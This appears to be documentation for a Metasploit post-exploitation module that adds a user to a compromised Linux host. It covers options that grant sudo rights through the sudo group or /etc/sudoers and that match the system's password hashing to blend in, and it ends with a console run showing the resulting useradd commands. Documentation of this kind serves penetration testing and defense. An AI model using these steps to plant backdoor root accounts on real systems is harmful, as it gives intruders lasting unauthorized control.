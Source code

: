 ## Vulnerable Application

This module creates a new user using the standard (or non-standard) means of
creating a new user on the victim OS. This module requires root privileges
in order to run as it needs access to /etc/shadow.

## Tested Versions

 * Debian 11.7
 * Alpine 3.17
 * Fedora 37

## Verification Steps

  1. Start msfconsole
  2. Get a Meterpreter session
  3. `use post/linux/manage/adduser`
  4. `set session <id>`
  5. attempt to log in with account


## Options

### USERNAME

Provide the username that can be used. Linux has a standardization that means
that password have to follow this regex to be able to be used as a username
`^[a-z][a-z0-9_-]{0,31}$`

### PASSWORD

Provides a password for your new user.

### SHELL

Define the shell that is to be used. Defaults to `/bin/sh` but can be changed
to a shell that exists.

### HOME

Speficy the home directory of the new user. An empty value specifies that the
home directory does not exist.

### GROUPS

Specify what groups the new user should be under. Takes one or multiple values
to provide what groups the new user will have.

## Advanced Options

### SudoMethod

Sets the method that the new user will get root access. This can be done
through multiple methods provided below:

 * **GROUP** - Put the new user in the sudo group (is added automatically to
 the groups option)
 * **SUDO_FILE** - Adds user directly to `/etc/sudoers` file in order to
 prevent being removed from sudoers group
 * **NONE** - No sudo methods are provided. New user is a unprivileged user

### UseraddMethod

Set the method used to create new user.

 * **AUTO** - The default option. The module will figure out how to add in the
 user by itself.
 * **MANUAL** - Instead of using a binary on the system, add in the new user
 directly into the FileSystem. This can be preferred if the binary can be
 inconsistent or tracked.
 * **CUSTOM** - Set the custom binary to add in a user. Can be used to pipe
 auto detection towards a preferred binary such as debians dual choice of
 useradd and adduser, or alpines busybox.

### UseraddBinary

Set the binary used to add the user. The two main binaries concerned with are
`useradd` and `adduser`. If you want to overwrite which binary is used or give
an absolute path rather than a relative path, you can override it here.

### MissingGroups

This option decides how to manage groups requested that are missing on the victim.
The possible options are provided as such:

 * **ERROR** - If a group is missing, fail the module with a given error
 * **IGNORE** - If the group doesnt exist, continue to add the user, but dont add
 them to the missing groups
 * **CREATE** - If the group doesnt exist, then make them first then add the user
 to them

### PasswordHashType

Allows the user to decide how their password will be encrypted on the system.
The options are between `DES`, `MD5`, `SHA256`, and `SHA512`. This can be
advantageous to blend in with the main system by using the same password
encryption scheme as the rest of the users. Or if one encryption type isn't
compatible with a given target.

## Scenarios

```
msf6 > use post/linux/manage/adduser
msf6 post(linux/manage/adduser) > set session 6 
session => 6
msf6 post(linux/manage/adduser) > set sudomethod GROUP 
sudomethod => GROUP
msf6 post(linux/manage/adduser) > set groups wheel docker wireshark
groups => wheel docker wireshark
msf6 post(linux/manage/adduser) > set username metasploit
username => metasploit
msf6 post(linux/manage/adduser) > set password abcd1234
password => abcd1234
msf6 post(linux/manage/adduser) > set shell /bin/bash
shell => /bin/bash
msf6 post(linux/manage/adduser) > set home /home/metasploit
home => /home/metasploit
msf6 post(linux/manage/adduser) > set missinggroups CREATE 
missinggroups => CREATE
msf6 post(linux/manage/adduser) > set verbose true 
verbose => true
msf6 post(linux/manage/adduser) > run

[-] Groups [docker] do not exist on system
[*] Running on Debian 11.7 (Linux 5.10.0-23-amd64)
[*] Useradd exists. Using that
[*] groupadd docker
[*] 
[+] Added docker group
[*] useradd --password $1$WDX5Sg4N$Hcfx4HSigx/KbvtSzhsXD/ --home-dir /home/metasploit --groups wheel,docker,wireshark,sudo --shell /bin/bash --no-log-init metasploit
[*] 
[*] Post module execution completed
msf6 post(linux/manage/adduser) > run

[*] Running on Debian 11.7 (Linux 5.10.0-23-amd64)
[*] Useradd exists. Using that
[*] useradd --password $1$EVUDKEc3$Sip80MAZmLv.2vOhzW/4k0 --home-dir /home/metasploit --groups wheel,docker,wireshark,sudo --shell /bin/bash --no-log-init metasploit
[*] useradd: user 'metasploit' already exists
[*] Post module execution completed
```
